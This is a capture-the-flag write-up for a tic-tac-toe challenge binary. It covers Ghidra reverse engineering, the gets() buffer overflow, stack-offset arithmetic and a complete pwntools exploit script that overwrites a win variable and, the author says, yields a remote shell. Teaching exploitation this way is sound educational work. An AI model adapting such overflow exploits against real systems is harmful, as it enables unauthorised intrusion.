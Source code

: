 # Tic Tac Toe
Created by: Sasha (@kyrili on Discord)  
Writeup by: Ethan Andrews (UofUsec)

## Description
I bet you can't beat me at tic tac toe.

## Writeup
### Initial Look
By running the program, it appears to be a tictactoe game between a CPU. 

![image](https://github.com/user-attachments/assets/d662e6d8-db36-44dc-81ee-0a312033d0b1)

### Information Gathering
We can analyze it using Ghidra (an open source decompiling tool for reverse engineering) to see where potential vulnerabilities are. Using Ghidra, we can analyze the c code and change variables names to deobfuscate and perform some reverse engineering.
The CPU choices appear to be hard coded rather than based on an algorithm.

![image](https://github.com/user-attachments/assets/f52997ab-ad25-4f58-ae2f-c8e01eaf9c21)

Now we will search for the win conditions. We find the following code that shows the conditions necessary to win.

![image](https://github.com/user-attachments/assets/7dd6ef31-66fb-4579-8d97-235dacdabede)

So it appears that in order to win, the player must tie, and then have a certain variable (renamed tie_or_win) set to a non-zero value. 

### Finding Vulnerabilities
We also find several vulnerabilities in the code. The code utilizes the gets() function to read in user input. This allows for buffer overflow whenever user input is being queried. We also note that 
it only considers the first character of the input as the move, so after the overflow occurs, it will still register it as a valid move.

![image](https://github.com/user-attachments/assets/108764f6-7911-413c-973c-dcd8a66ecd63)

We can also use Ghidra to determine where the variables are located. Luckily, the tie_or_win value is above the user input buffers allowing for buffer overflow directly into the variable.

![image](https://github.com/user-attachments/assets/58f112fa-8990-4565-92e8-c46d2f70c1a9)
![image](https://github.com/user-attachments/assets/276b3890-e858-401b-98d8-13ea335aa057)

### Solution
We can use pwntools to perform the exploit.
```python
from pwn import *

p = process("./tictactoe")

# Replace with remote server when exploit works
# p = remote("challenge.utctf.live...

```

Because we need to tie first, we will send the moves required to tie. We will leave the last move without a new line character
because we want to overflow on the last move.

```python
p.send(b"o\n")
p.send(b"5\n")
p.send(b"3\n")
p.send(b"4\n")
p.send(b"8")
```

Because we are overflowing on the last move, we need to overflow from the position of the user_move_4 buffer (stack - 0x55) to the 
tie_or_win value (stack - 0x10). This means we have to overflow it by `stack - 0x10 - (stack - 0x55) = 0x45` bytes or 69 in decimal. 
Because we already sent one byte (the character 8), we will additionally send another 68 bytes and then another character to 
make the tie_or_win variable non zero.

```python
p.send(b"\x90"*68 + b"\x01" + b"\n")
```

So that should be it right? Unfortunately, when I run the exploit, it doesn't accept the last move:

![image](https://github.com/user-attachments/assets/2dac56ff-b430-4465-a374-ca21ed5be5a3)

To figure out what's going on, we'll look at how the program registers what valid moves are. 

![image](https://github.com/user-attachments/assets/6954c8da-fb15-4160-a288-1b7a7354d515)

The key insight is that it checks whether the board state at that value is equal to zero. Unfortunately, the board state
is in between the user input buffer and the tie_or_win variable.

![image](https://github.com/user-attachments/assets/149ecdc3-5cc1-4e04-9d04-3fb2a675d6ee)

So when we overflow it with \x90 bytes, it changes all the values in the board state buffer to \x90 effectively removing all valid moves. Luckily, we can fix this by simply using \x00 for
padding instead of \x90. This gives us the final working exploit:

```python
from pwn import *

p = process("./tictactoe")

# Replace with remote server when exploit works
# p = remote("challenge.utctf.live...

p.send(b"o\n")
p.send(b"5\n")
p.send(b"3\n")
p.send(b"4\n")
p.send(b"8")
p.send(b"\x00"*68 + b"\x01" + b"\n")

p.interactive()
```

When run on the remote server, this grants access to a shell.

## Important Concepts
- Ghidra
- Buffer overflow
